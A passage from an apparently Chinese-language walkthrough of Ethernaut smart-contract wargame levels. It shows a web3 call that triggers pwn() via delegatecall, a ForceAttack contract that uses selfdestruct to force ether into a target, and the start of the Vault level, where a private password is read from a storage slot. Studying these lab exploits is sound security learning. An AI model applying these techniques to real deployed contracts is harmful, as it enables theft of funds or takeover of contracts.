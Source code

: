 利用 `fallback()` 中的 delegatecall 調用 `pwn()`
```javascript
signature = web3.eth.abi.encodeFunctionSignature("pwn()")
await contract.sendTransaction({ from: player, data: signature })
```
Level completed.

## 7. Force
目標讓合約 balance > 0

可以看到沒 receive 或 fallback
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
送 unexpected ether 最簡單的做法：合約 selfdestruct 並發送 ether 到指定地址

### Exploit
記得先轉 ether 進去再 selfdestruct
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttack {

  constructor() public payable {}
  receive() external payable {}

  function attack(address payable target) public {
    selfdestruct(target);
  }
}
```
Level completed.

## 8. Vault
目標 `locked = false`

password 雖然是 private 但還是能透過知道他在哪個 slot 拿到他的值
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
```
